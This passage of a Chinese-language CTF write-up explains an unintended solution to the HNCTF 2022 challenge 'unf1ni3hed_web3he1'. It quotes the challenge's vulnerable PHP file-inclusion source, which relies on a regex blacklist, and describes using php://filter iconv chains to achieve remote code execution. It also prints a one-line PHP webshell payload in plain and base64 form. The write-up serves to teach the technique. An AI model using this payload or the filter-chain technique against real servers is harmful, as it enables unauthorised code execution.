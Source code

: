 这里的`"\x1b$)C"`是由`convert.iconv.UTF8.CSISO2022KR`生成，因为生成链的程序默认在尾部增加了这个，后面我们会详细讲解x

flag文件的内容是"`PREMIUM - idek{Th4nk_U_4_SubscR1b1ng_t0_our_n3wsPHPaper!}`"

## 【HNCTF 2022】unf1ni3hed_web3he1 非预期 使用filter链进行RCE

首先这一道题的预期解是是session反序列化，但在前期源码获取的基础上，根据 just so so 这道题的灵感加了一个t00llll.php文件来获取源码信息，该文件的源码如下：

```php
<?php
error_reporting(0);

if (!isset($_GET['include_'])) {
    echo "使用工具的时候,要轻一点哦~";
    show_source(__FILE__);
}else{
    $include_ = $_GET['include_'];
}
if (preg_match('/sess|tmp/i', $include_)) {
    die("可恶涅,同样的方法怎么可能骗到本小姐两次!");
}else if (preg_match('/sess|tmp|index|\~|\@|flag|g|\%|\^|\&|data|log/i', $include_)) {
    die("呜呜呜,不可以包含这些奇奇怪怪的东西欸!!");
}
else @include($include_);

?>
```

该文件的本意是让选手用其读取web3he1.php的源码进行代码审计，但是过滤规则还是存在一个漏洞——即我们可以通过构造filter链直接进行RCE，详细参考的项目还是这个： https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

当然由于我当时出题的时候 正则有这个规则 `g/i` 所以脚本使用的BIG编码不可行，得做一些平替。

所以需要自己去fuzz,这里提供一份我fuzz好的字典x：（嘘~）

用于包含的代码如下：

```php
<?=`$_GET[0]`;;/* (base64 value: PD89YCRfR0VUWzBdYDs7Lyo)
```

最后得到的一个 GET[0] 的 临时RCE，下面是攻击报文：

```php
```
